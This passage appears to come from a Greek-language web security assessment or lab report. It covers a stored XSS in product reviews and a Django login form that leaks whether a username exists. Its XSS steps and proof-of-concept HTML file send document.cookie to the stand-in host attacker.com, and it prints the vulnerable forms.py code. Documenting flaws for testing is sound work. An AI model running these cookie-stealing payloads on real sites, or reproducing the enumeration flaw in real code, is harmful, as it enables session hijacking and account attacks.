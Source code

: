 #### 4.2.3 Stored XSS

**[ΟΔΗΓΙΕΣ SCREENSHOT 5]**
```
Τίτλος: Stored XSS σε Product Reviews
Βήματα:
1. Login ως χρήστης
2. Πηγαίνετε σε ένα προϊόν
3. Υποβάλετε review με:
   Title: Great Product
   Content: <script>document.location='http://attacker.com/steal?c='+document.cookie</script>
4. Screenshot της review που εμφανίζεται χωρίς escaping
5. Developer tools που δείχνει το script να εκτελείται
```

#### 4.2.4 Επιπτώσεις

- Κλοπή session cookies
- Phishing attacks
- Defacement
- Keylogging

**[ΟΔΗΓΙΕΣ PROOF OF CONCEPT]**
```
Δημιουργήστε αρχείο xss_poc.html:

<!DOCTYPE html>
<html>
<head><title>XSS PoC</title></head>
<body>
<h1>XSS Cookie Stealer</h1>
<script>
// Αυτόματη κλοπή cookies
var stolen = document.cookie;
document.write('<img src="http://attacker.com/steal?cookies=' + stolen + '">');
</script>
</body>
</html>

Screenshot: Ανοίξτε το αρχείο και δείξτε το network request
```

---

### 4.3 Αδυναμίες Ταυτοποίησης - Κρίσιμη Ευπάθεια

#### 4.3.1 User Enumeration

**Ευάλωτος Κώδικας** (`forms.py`, γραμμές 154-172):
```python
try:
    user = User.objects.get(username=username)
    if not user.check_password(password):
        raise ValidationError("Invalid password for user '{}'".format(username))
except User.DoesNotExist:
    raise ValidationError("Username '{}' does not exist".format(username))
```
